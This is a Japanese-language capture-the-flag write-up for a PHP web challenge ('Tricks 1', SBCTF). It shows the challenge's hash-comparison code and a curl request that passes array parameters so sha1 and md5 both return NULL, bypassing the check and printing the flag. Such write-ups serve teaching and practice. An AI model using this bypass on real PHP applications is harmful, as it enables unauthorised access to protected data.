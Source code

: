 # Tricks 1:Web:pts
A couple of PHP tricks, give it a try.  
[Click here](https://ch5.sbug.se/)  

# Solution
アクセスするとPHP問であることがわかる。  
[site.png](site/site.png)  
```php
 <?php
    error_reporting(0);

    if (isset($_GET["a"]) && isset($_GET["b"])) {
        if ($_GET["a"] !== $_GET["b"] && sha1($_GET["a"]) === sha1($_GET["b"])) {
            if ($_GET["a"] !== $_GET["b"] && md5($_GET["a"]) === md5($_GET["b"])) {
                $flag = file_get_contents("../../flag");
                echo $flag;
            }else {
                echo "Didn't get passed MD5.";
            }
        }else {
            echo "Didn't get passed SHA1.";
        }
    }else {
        highlight_file(__FILE__);
        die();
    }
?> 
```
パラメータ`a`と`b`は厳密に不等価であり、そのsha1とmd5が厳密に等価であればよい。  
まずはsha1とmd5が共に一致するものは見つけにくいので、バイパスを考える。  
文字列を引数にとるが、配列を入れるとNULLが返ってくるらしい。  
つまり`sha1(["a"]) === sha1(["b"])`や`md5(["a"]) === md5(["b"])`は`NULL === NULL`となり真になる。  
もちろん`["a"] !== ["b"]`は真である。  
```bash
$ curl "https://ch5.sbug.se/?a[]=a&b[]=b"
SBCTF{g07_2_w17h_0n3_SH07?}
```
flagが得られた。  

## SBCTF{g07_2_w17h_0n3_SH07?}